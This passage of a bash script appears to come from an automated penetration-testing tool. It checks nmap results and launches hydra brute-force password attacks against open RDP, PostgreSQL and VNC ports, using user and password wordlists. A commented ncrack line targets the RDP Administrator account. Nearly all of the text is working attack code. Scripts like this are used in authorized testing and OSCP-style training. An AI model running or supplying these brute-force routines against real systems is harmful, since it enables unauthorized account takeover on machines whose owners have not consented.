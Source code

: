      # Brute force
     # ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://${targetIP}

     if grep -q 3389/tcp nmap.log; then
       echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 3389(RDP) is open. Starting bruteforce...\n"
       sleep 1
       hydra -C $windows_u ${targetIP} rdp -e ns -o Output/${targetIP}/rdp_${targetIP}.txt -I -V -t $thread
       hydra -L $windows_u -P $pass ${targetIP} rdp -e ns -o Output/${targetIP}/rdp_1_${targetIP}.txt -I -V -t $thread
       Finished_Brute "${targetIP}"
     else
    echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 3389(RDP) is not open. Skipping to next port..."
  fi

   }
  BruteRDP

  #  Port 5432 (PostGres)
  BrutePostgres(){
    if grep -q 5432/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 5432(postgres) is open. Starting bruteforce...\n"
      sleep 1
      hydra -C $postgres_up ${targetIP} postgres -e ns -o Output/${targetIP}/postgres_1_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 5432(postgres) is not open. Skipping to next port..."
    fi
  }
  BrutePostgres

  #  Port 5900 (VNC)
  BruteVNC(){
    if grep -q 5900/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 5900(VNC) is open. Starting bruteforce...\n"
      sleep 1
      hydra -P $vnc_p ${targetIP} vnc -S 5900 -e ns -o Output/${targetIP}/vnc_5900_${targetIP}.txt -I -V -t $thread
      hydra -P $pass ${targetIP} vnc -S 5900 -e ns -o Output/${targetIP}/vnc_5900_1_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 5900(VNC) is not open. Skipping to next port..."
    fi
  }
  BruteVNC
